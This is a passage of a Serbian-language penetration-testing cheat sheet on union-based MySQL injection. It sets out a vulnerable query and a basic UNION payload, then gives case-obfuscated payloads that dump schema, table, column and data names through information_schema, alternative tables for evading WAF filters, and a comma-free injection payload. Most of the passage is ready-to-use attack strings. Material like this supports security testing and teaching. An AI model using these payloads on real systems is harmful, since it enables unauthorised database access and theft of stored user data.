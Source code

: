 ### Primer

Pretpostavimo da imamo sledeći SQL upit u ciljnoj aplikaciji:

```sql
SELECT name, email FROM users WHERE id = '<user_id>'
```

Da bismo izvršili MySQL baziran na Uniji, možemo koristiti sledeći payload:

```sql
' UNION SELECT 1,2 FROM users --
```

Ovaj payload će izvršiti sledeći SQL upit:

```sql
SELECT name, email FROM users WHERE id = '' UNION SELECT 1,2 FROM users --'
```

Kao rezultat, dobićemo kombinovane rezultate iz prvog upita (`SELECT name, email FROM users WHERE id = ''`) i drugog upita (`SELECT 1,2 FROM users`).

```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```

## SSRF

**Ovde možete naučiti različite opcije za** [**zloupotrebu Mysql ubacivanja kako biste dobili SSRF**](mysql-ssrf.md)**.**

## Trikovi za zaobilaženje WAF-a

### Alternative za information\_schema

Zapamtite da u "modernim" verzijama **MySQL**-a možete zameniti _**information\_schema.tables**_ sa _**mysql.innodb\_table\_stats**_ ili sa _**sys.x$schema\_flattened\_keys**_ ili sa **sys.schema\_table\_statistics**

### MySQL ubacivanje bez ZAREZA

Izaberite 2 kolone bez korišćenja zareza ([https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma](https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma)):

```
-1' union select * from (select 1)UT1 JOIN (SELECT table_name FROM mysql.innodb_table_stats)UT2 on 1=1#
```
